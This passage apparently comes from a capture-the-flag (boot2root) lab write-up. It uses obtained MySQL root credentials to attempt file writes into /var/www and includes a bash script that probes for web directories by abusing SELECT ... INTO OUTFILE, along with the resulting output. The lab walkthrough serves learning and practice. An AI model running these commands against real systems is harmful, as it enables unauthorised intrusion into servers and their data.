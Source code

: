 We can see that the following users have a regular account:
- ft_root
- lmezard
- laurie@borntosec.net
- laurie
- thor
- zaz

The system user's include the `mail`, `www-data` and `ftp` users.
We may be able to determine the location of each applications base directory, by looking at their corresponding `passwd` entry's `home` field.

| User     | Home     |
|----------|----------|
| mail     | /var/mail|
| www-data | /var/www |
| ftp      | /srv/ftp |

Let's try to write to the `www-data` user's home directory.
```bash
echo test > test.txt

./upload.sh $(tr '/' ' ' < root.mysql.credentials) test.txt /var/www/test.txt
```
```
"#1 - Can't create/write to file '/var/www/test.txt' (Errcode: 13)"
```

It looks like the `mysql` user does not have write permissions on the `/var/www` directory.

We can try to search for the web applications inside of the `/var/www` directory using the `SQL` server's read functionality.

The `LOAD DATA INFILE` statement is powerful, but it cannot list files.
To do this, I created a fuzzing tool that can be used like the directory enumeration tool that we previously used on the web server.
```bash
#!/usr/bin/env bash

DATA=fuzz
PREFIX="${3:-/var/www/}"

while read -r line
do
	echo "SELECT '$DATA' INTO OUTFILE '$PREFIX$line'"
done | ./query.sh "$1" "$2" | grep -v 'Errcode: 13'
```

The tool attempts to store data into files, by concatenating the web root with filenames read from standard input.

We can input a list of subdirectories we expect, according to the urls of the web applications:
```bash
./fuzzfile.sh $(tr '/' ' ' < root.mysql.credentials) << EOF
cgi-bin
forum
phpmyadmin
webmail
EOF
```
```
"#1086 - File '/var/www/forum' already exists"
```
